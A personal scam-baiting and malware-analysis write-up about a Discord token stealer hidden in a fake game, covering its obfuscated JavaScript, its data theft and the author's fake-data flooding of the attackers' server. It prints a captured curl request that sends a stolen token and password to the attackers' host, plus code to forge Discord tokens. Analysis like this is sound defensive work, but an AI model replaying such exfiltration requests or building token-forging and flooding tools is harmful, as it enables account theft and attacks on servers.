

# TL;DR

Some scammers on discord, in multiple attempts, tried to send me malware in Discord to take over my account and do other nefarious things. I reverse engineered their malware, and used it to generate to send them fake login credentials to waste their time and effort by poisoning their dataset.

Eventually their C2 server shut down. Related? Who knows!

# Notes

These are 'stream of consciousness' notes that I took at the time. They are very messy,
because I was more focused on recording details than making it look nice (otherwise, I would have spent forever editing this, and never would have pushed it).

A few times, I have been sent unsolicited DMs on Discord. Most of the time they just say "hi" and don't ask for anything. If I have free time, I might reply to them and see what ~~they want~~ scam they are trying to run. I'm a big fan of Scam-baiting, and so if I can waste a scammer's time, it means that they aren't actively going after someone else.

Every now and then, they send a "game" that they've been "working on", and ask me to try it out. These sometimes are just the `.exe`, sometimes a `.rar` (sometimes password protected), sometimes are a link to some website which hosts it (in one case, their website used the Discord CDN to host it).

## Why

I have this flag on my account which apparently is valuable for scammers. I assume they want
it so that they can phish people:


In the past I have been offered money for my account because of this badge, and later on
I'll find that these badges are a clear target for the scammers:


This user is now deleted, and it was probably just taken over from another account. The user id is 866762355232210984 .

## Previous Experience

I've had this happen before, the last time I tried to be obnoxious and ask if their game worked on my iPad (I don't have an iPad).


At the time I just ran `strings` on the binary to look for things. I didn't find much, because the application was packaged using nexe, and so it contained a bunch of unrelated javascript stuff that wasn't part of the payload, just required for it to run. Eventually I got busy with something else, and gave up.

I also tried spinning up a windows 8 VM, and recall it kept throwing some exception at the time, so their malware didn't even work.

## The bait

Eventually, someone else messaged me out of the blue asking if I wanted to play their game, I love games!

I was going to censor this URL when I made this public, but the URL is down, so I don't care anymore. They started by asking if I wanted to play their game, which even had a fake website spun up. I believe they steal the name and these screenshots from Indie devs, to make things look legit.


Despite the scammers now knowing how to set up and host a website, they for some reason are still hosting their binary on the Discord CDN. I bet this is just easier for them to coordinate. Eventually, they just migrated the `.rar` file to their own web server, and not the Discord CDN.

After a bit of being annoying and slow to respond, the scammers told me to log on to a PC to play their game. They also insisted that I log in via my own account, and not via a different account.

The malware doesn't do anything visually when it runs. A console window appears, quickly close, and eventually the Discord process crashes. This is because the malware overwrites the Discord `app.asar` file, which contains resources used by the client. They want you to restart the app so that the payload is loaded, and so that the modified client can send your token to their C2 server.

I took this as an opportunity to be annoying:


Eventually they clearly stated that they were interested in _my_ account, and not the throwaway account that I created. (Discord's current user verification makes it really hard to create a throwaway account, unless you have an extra phone number. This took some time to get sorted out.)


I used a bait account which was not my verified bot dev account, and quickly deleted it after.

Also, since they distributed their malware via `.rar`, they insisted that I download winRAR. My VM didn't have that installed, and so that was another opportunity to be difficult.

(when going back to write this afterwards, the original owner of this account (it had been taken over) came back and renamed it to something else, this is why the username is different. same person.)


Eventually they either lost access to this account, gave up, or both.


I have what I need, so that wasn't a problem.

## hacking_sounds.wav

Cool so now I have the payload, what does it do?

Thankfully I can just spin up azure VMs and go wild, unfortunately unlike
a previous attempt I can no longer seem to spin up windows 8 VMs, which
absolutely seemed to break the node.js runtime thingy they are using. (One concern that I had, if I spin up an Azure VM, are there any bits, like managed identity, which might put my account at risk or identify my subscription? The VM has long-since been nuked.)

There are some things going on in the payload which I haven't figured out.

When I run the program, I notice it opens a command window, this window disappears, and then some stuff happens, like the Discord client exits. The program seems to be a node JS app packaged using nexe, so if I dump strings, I get a ton of unrelated javascript things which aren't related. This makes it hard to figure out what the program is doing directly, but it is easy to use other tools to identify later stages of the payload (like what files it overwrites in the Discord client itself, and what that does).

By running the program, I noticed it created a `temp.ps1` file in the working directory, ran it, and then deleted it.


If I copy the .exe to a directory which doesn't have permissions to delete the file, then it cannot delete it, and so I can keep the file and look at it.

Unfortunately this step is  not very interesting, it just hides the conhost window.


Procmon is pretty cool, I was able to log what the process was doing. In addition to writing this powershell script to hide the window I also saw it writing out libraries, accessing directories to check for browser cookies (need to dive further into this), but also saw it going into the discord app data directory. The library and cookies make me think that this is an artifact from nexe, and not the payload of the app itself. Though I can't be too sure.

It seems like discord was the primary target, as that's the way that the scammers can hop accounts, but while they are at it they could be stealing browser cookies and whatever else they can find. Still haven't ruled out exactly what else they are doing here, or how they are doing it, again this is a gap in my coverage of this so far.

Still an open question, need to determine if there is a good way to dump the actual program that was bundled by nexe. I should take some time to figure this out, can't just load it in ghidra or strings because there's a lot else going on.

Another TODO: Need to figure out what these `.bby` files that are being written to. Why is the malware writing these files? What are `bby` files (this malware is often referred to as bby stealer, why?)

## javascript acquiredscript

At least it was easy to get the modified index.js because procmon showed me where it was written to. Unfortunately, it's minified and obfuscated. Here's a partial screenshot from when I found it:


Unsure if it is overwriting or just adding a new file but also modifying the discord app to load it on start up.


### hey I see wireshark, what were you doing 

So there is an environment var in windows that can log TLS handshake keys so that
wireshark can decrypt TLS. Unfortunately electron apps like discord do not care about this, and this exploit only targets the discord electron app from what i can tell.

However, I was able to see the DNS requests the app was making, and confirm that
it was sending HTTPS traffic. There was another method that I used to capture traffic which I will explain in a bit.

----

### Anyways, this javascript is a mess

Basically it's a big list of strings which have method names, text fields, segments of urls, etc. and each time it accesses those it calls into a method which basically gets it out of that list.

The master list looks like this:


And the code looks like this, it appends entries together when they are accessed.


I was able to start renaming methods, I figured out that this lookup method has a
constant offset (444) from the index that was given to it.


Basically all it does is takes the index provided, and returns `index - 444`. That's it.

But when i did this the first time, it was really broken.

TODO: I don't have an example screenshot of this.

Basically, there is another trick that they are doing: the list of keywords is not in the correct order at rest, and needs to be modified before it is accessed. Before anything is accessed, the code will de-scramble the master list. To do this, in a loop it tries to check a number of values against a constant, and if it doesn't match, rotate the list left and try again.
Once the expected value found, the master list is correctly set.

Thankfully, it's just a simple cipher, and doesn't modify as it is accessed.


This method uses json parseint to fetch 13 values, if they are all valid ints (see rant) and if the computed check value matches the key, stop, because the values are fine.
Otherwise, rotate the contents by one and try again.

### rant

why the fuck does parseint accept so many stupid values

```
parseInt('4075e8=_0x') == 4075
```

Anyways, I wrote some python to rotate the list of strings, using the check logic from the
payload, to compare against the constant. Once I had the de-scrambled list of strings,
I wrote a simple substitution to replace the calls to the lookup function with the literal strings from the descrambled list.

```python
def try_solve():
    try:
        ans = key_lookup(0x342) / 1 *\
            key_lookup(0x1d0) / 2 +\
            key_lookup(0x3c6) / 3 *\
            key_lookup(0x37f) / 4 +\
            - key_lookup(0x1db) / 5 *\
            key_lookup(0x1f5) / 6 +\
            - key_lookup(0x303) / 7 +\
            key_lookup(0x332) / 8 *\
            - key_lookup(0x282) / 9 +\
            - key_lookup(0x29f) / 10 *\
            - key_lookup(0x2cf) / 11 +\
            - key_lookup(0x42f) / 12 *\
            - key_lookup(0x2df) / 13
        # print('HEY I HAVE SOMETHING', ans)
        return ans == 711825
    except Exception as e:
        return False

def rotate(l):

    start_len = len(l)
    # rotate left
    f = l[0]
    l = l[1:]
    l.append(f)

    end_len = len(l)

    assert start_len == end_len
    return l
```

---

The number of times I had to rotate was about 400 something


Once rotated, the string replacement of the words in the string list started to make sense. There's still a little bit of obfustication going on, like strings of js
that are evaluated at runtime, or lookups into weird lists for some reason, but it's actually readable now and I'm able to figure out what's what.
A simple find and replace could concatenate string constants.

## so what does it do

a few things stuck out to me:


check out these urls, they are interested in user billing info, friends, 2fa, etc. very invasive.


they take this data, and build a json object and send it to their server (and the fields are scary, they have plaintext passwords and tokens, and can monitor when they change)

**takeaway: change your password OUTSIDE of the app using emailed code** (unsure if the browser is also safe, not sure what those `.bby` files it writes are)


this seems to inject itself in the discord startup, so it only goes away if the discord updater decides to overwrite the file?? scary


it has the user token, and so it can look up extra user data like friends and billing info (yikes)

and I think this is how it is able to hook requests that the client makes on startup/login/changed password


yikes

## phuck the phishers

while I have most of the payload, and can tell where the traffic was going via wireshark dns logs,
i couldn't really tell too easily what was happening

and so there is a setting you can manually enable in the settings.json of the discord client to enable the electron dev console (opt in because users kept screwing themselves)


and once this is open I can see all of the requests being made

interestingly, they have a message waiting for me in the 200 OK response body

but here I could copy (as a curl method) the request being made

```
  curl 'https://t4ckXXXXXXXXXXXXXct.nl/J6d0IxhsyBHf' \
  -H 'authority: t4ckXXXXXXXXXXXXXct.nl' \
  -H 'access-control-allow-origin: *' \
  -H 'user-agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) discord/1.0.9005 Chrome/91.0.4472.164 Electron/13.6.6 Safari/537.36' \
  -H 'content-type: application/json' \
  -H 'accept: */*' \
  -H 'origin: https://discord.com' \
  -H 'sec-fetch-site: cross-site' \
  -H 'sec-fetch-mode: cors' \
  -H 'sec-fetch-dest: empty' \
  -H 'referer: https://discord.com/' \
  -H 'accept-language: en-US' \
  --data-raw '{"data":{"username":"undefined#undefined","password":"adsflafdlkjfukckafukcjsadkfukclnasdflkalskdflkafdlkasflkj"},"billing":{"message":"401: Unauthorized","code":0},"friends":{"message":"401: Unauthorized","code":0},"token":"MTAwNTYwNTQzNTkyMDg3NTY1Mg.GlbYTA.vkjxrC1uAw6e1ZeuumledpaUBWSituhexgaKGU","type":"login"}' \
  --compressed
```

great, I have the method, the endpoint, the contents, everything I need to duplicate this attack (the token, password, and username are all long burned by now)

## wouldn't it be great if I could generate fake user data to send their way?

that's what I thought, so I did

```py
def get_user_id(user_age: datetime.datetime):
    # https://discord.com/developers/docs/reference#convert-snowflake-to-datetime
    user_id = 0

    # timestamp milliseconds
    timestamp = int(user_age.timestamp()) * 1000
    timestamp -= 1420070400000
    user_id = timestamp << 22

    # internal worker id 5 bits
    worker = random.randint(1, 31)
    process = random.randint(1, 31)
    increment = random.randint(1, 4095)

    user_id |= worker << 17
    user_id |= process << 12
    user_id |= increment

    return user_id

def get_user_token(user_id, token_time: datetime.datetime):
    # A discord token is comprised of 3 segments-
    # the first segment is the base64 encoded user id as a string
    user_id_bytes = str(user_id).encode('utf-8')
    user_id_encoded = base64.b64encode(user_id_bytes).decode('utf-8')
    user_id_encoded = user_id_encoded.rstrip('=')

    # the second segment is the timestamp when the token was generated
    timestamp = int(datetime.datetime.utcnow().timestamp())
    timestamp -= 1218000000 # seems they have modified this, this timestamp
    # is close enough to be realistic
    # encode 32 bit int into base64
    timestamp_bytes = timestamp.to_bytes(8, byteorder='big')
    timestamp_encoded = base64.b64encode(timestamp_bytes).decode('utf-8')
    timestamp_encoded = timestamp_encoded.rstrip('=')

    # last segment is an hmac which is basically 28 random bits
    key = [random.randint(0, 255) for _ in range(28)]
    key = bytearray(key)
    key_encoded = base64.b64encode(key).decode('utf-8').rstrip('=')
```

using the top 10k passwords list and some messing around, I now have what I need to generate fake user data that checks out (is "valid", just not for a real user)

and so hopefully this should waste their time


and so I created a function app that generates these payloads using fake user data, once a minute, scheduled for a random time in the next week


anyways so now it posts this fake data to them a bunch to waste their time. if I have the further motivation, i'll also implement the changed password and billing data bits that I haven't done yet

## who are these people


so all of the domain names have been `.nl` so far


and their landing page showed this

I found this page when I was GETing the request and not POSTing it


which is a clone of `superfurrycdn.nl`

not sure what this other site is or if it's involved, but they stole the landing page and the favicon

## update 8/13


there is a password on the rar file now (I downloaded it again)


and implemented get change password

```
$ john-the-ripper --format=rar rar.hashes.txt
Using default input encoding: UTF-8
Loaded 1 password hash (rar, RAR3 [SHA1 256/256 AVX2 8x AES])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
0g 0:00:00:29 12.21% 1/3 (ETA: 08:22:49) 0g/s 164.6p/s 164.6c/s 164.6C/s rarCrazyDown}..csetuppb
0g 0:00:00:33 13.26% 1/3 (ETA: 08:23:00) 0g/s 167.4p/s 167.4c/s 167.4C/s grarr..rcrazydownu
```

thanks john the ripper!


hacking noises intensify

edit: john the ripper was too slow because it did not support GPU, I switched over to GPU brute forcing, since I had no luck using some of my wordlists

I let it run on my laptop for a day, but didn't get very far. I have not 
done much password cracking before.


## startling online

this was from back in dec 2021, I didn't have the skillz to reverse
it like I do now


this shit doesn't work because I'm not signed in, and they cannot spell!

it's also doing the same thing


writes to that one file (and is also a node js app)


the two js files have a different key (103015 vs 711825), and so they could be different
likely are sending to different hosts


format document, find instances of this lookup function, find and replace

and then run my script against it


853 instances

to get the script ready I did this

```js
var x = [ 'strings list goes here' ]
var o  = []
x.forEach(y => o.push   (parseInt(y)))
copy(o)
// add this to nums_starling
```


cool it works again (I should make a way to automate this)


here's another server they are using


and actually it's the same server


sweet, time to add it

omg they've been running this since at least dec 2021


so like 8 months

### etc

<!-- where was I going with this??
contents of the package.json file that enables injection of js
-->

also


we can break the malware if we delete app asar


## Sept 2022

got another sample and the PASSWORD

they have moved to blogspot


PASSWORD IS 5KJ9-34FH-KLS7

FUCK YEA

reversing this malware again, also is a node js app and seems to be doing the same thing


### they changed the path kinda


the path is different, but the same server, so i will start sending requests to both

**BUT SO WILL I**, randomly will choose
between the two paths to avoid suspicion

### now I know the format of the password

4 digits, 3 groups, uppercase

going to write a generator, and then pipe this into hashcat or something

ezpz

seems like the rest of the thing is all the same, so I'm not going to worry about it


hippity hoppity give me your password

## note about encryption

interesting difference about the sample 3 mozi
and sample 2 startling online

mozi lets you view the contents of the rar without decrypting, the password is required to decrypt

startling online setupp requires the password to even list the files

interesting, not sure if this affects things.

# i am stupid


forgot to include post body, so I did nothing for a few weeks

fixed it now

## blcoked by firewall


getting blocked by firewall, need to change ip since it seems it is blocking all azure traffic

## notes

https://www.joesandbox.com/analysis/677245/0/html

interesting notes about another sample

## more samples


https://github.com/Stanley-GF/PirateStealer

oh so this is the source

https://get-findthehidden.ml/ **this is down broken**

another one

https://github.com/HenryFBP/mystery-files/tree/master/viruses/Blast%20Dudes

really good notes from this guy, very similar


this is flagged and is actually preventing me from opening in windows

modified date is really recent 


this seems to be using the 'premium' malware


and just sends the user db

https://github.com/worstheaven/SuperFurryCDN

I am late to the party

https://github.com/topics/bbystealer

I am late to this party

# 4 months later

So I got busy and never finished this. I've let this run for a while, let's see how it's going:


I let this run for 4 months, it kinda kept working. I didn't put any attention into monitoring uptime, I've
been too busy with other things.

There is a gap in this graph around Jan 15. Not sure what happened, must have got unlucky with the selection of
free http proxies that I chose from. Whatever.

Also, the cost of the function app is like $2 a month. Not sure why it isn't covered by the free base cost of invocations, doesn't really matter. This is what free monthly credits are for :sunglasses:

The success rate is very low, but it's above zero. That's all I care about.

## Next step, wonder how hard it would be to brute force possible c2 addresses

I know the format that they use on the c2, wonder if they have moved on to a new url.

# update 3/29/2023

got busy.

seems that around 2/15 2023 this broke, did they move to a new website?


seems that their c2 server is down


Mission Accomplished?

this other c2 which seems to have been hosted on the same server is also down (different domain)


so seems like I can shut this project off now

holy fucking bingle

## what else

I really should look into what else the exe is doing. It does a lot beyond just the discord client
modifications, much more powerful, and much more concerning.

unfortunately I am unskilled and too busy to learn atm

## some other notes

was looking up what the `.bby` file is and found another sample here (from 12/16/2022)

https://www.joesandbox.com/analysis/768472/0/html

and seems that the file here seems to be the JS payload:



So that could be a useful lead for figuring out the `.exe` payload, since that was doing a lot more than just writing the Discord payload.

